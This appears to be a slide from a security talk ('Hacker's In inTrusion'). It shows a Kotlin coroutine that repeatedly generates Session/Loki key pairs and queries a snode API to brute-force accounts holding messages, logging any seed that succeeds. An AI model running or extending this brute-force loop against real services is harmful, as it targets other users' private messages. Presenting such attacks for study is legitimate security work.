

# 1. updatekeypairbruteforce
val duplicatecheckmap: MutableMap<String, Boolean> = mutableMapOf()
        CoroutineScope(Dispatchers.Default).launch {
            while (true) {
                delay(50)
                val keyPairGenerationResult1 = KeyPairUtilities.generate()
                val seed1 = keyPairGenerationResult1.seed.toString()
                if (duplicatecheckmap.remove(seed1, true)) {
                    duplicatecheckmap[seed1] = true
                } else {
                    val userPublicKey1 =
                        keyPairGenerationResult1.x25519KeyPair!!.hexEncodedPublicKey
                    val result = SnodeAPI.getMessageBruteForce(userPublicKey1)
                    result.success {
                        if (it) {
                            Log.e("Loki", "bruteforce success seed is $seed1")
                        }
                    }
                }
            }
        }
대충 이게 여러 개 있음
15
Hacker’s In inTrusion